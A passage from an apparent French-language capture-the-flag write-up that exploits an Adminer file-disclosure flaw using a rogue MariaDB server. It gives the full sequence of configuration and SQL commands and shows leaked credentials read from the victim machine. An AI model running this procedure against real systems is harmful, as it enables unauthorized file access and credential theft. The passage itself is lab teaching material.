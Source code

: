 ## Exploitation

Pour l'exploiter il nous faut un serveur mysql sur notre machine, créer une BDD, une table avec une colonne, se connecter à notre BDD depuis Adminer sur la victime, et ainsi accéder à la vulnérabilité "file disclosure".

Aurotiser l'accès au serveur dans la config mysql /etc/mysql/mariadb.conf.d/50-server.cnf :

```
# Instead of skip-networking the default is now to listen only on
# localhost which is more compatible and is not less secure.
#bind-address            = 0.0.0.0
```

On créé la DB.

```
$ sudo msql -u root -p
MariaDB [(none)]> create database exploit;
MariaDB [(none)]> use exploit;
MariaDB [exploit]> create table dmp(content varchar(5000));
MariaDB [(none)]> CREATE USER 'exploit'@'%' IDENTIFIED BY 'exploit';
MariaDB [(none)]> GRANT ALL PRIVILEGES ON exploit.* TO 'exploit'@'%';
```

 ![image-20200608203737192](/assets/img/image-20200608203737192.png)

On peut lire les fichiers de la victime.

![image-20200608204416636](/assets/img/image-20200608204416636.png)

Résultat lisible dans la table de notre base.

```
MariaDB [(none)]> use exploit;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [exploit]> select * from dmp;
...
                         $servername = "localhost";                                                                              |
                         $username = "waldo";                                                                                    |
                         $password = "&<h5b~yK3F#{PaPB&dA}{H>";                                                                  |
                         $dbname = "admirerdb";     
...
```

Encore des creds :

![image-20200608204749388](/assets/img/image-20200608204749388.png)
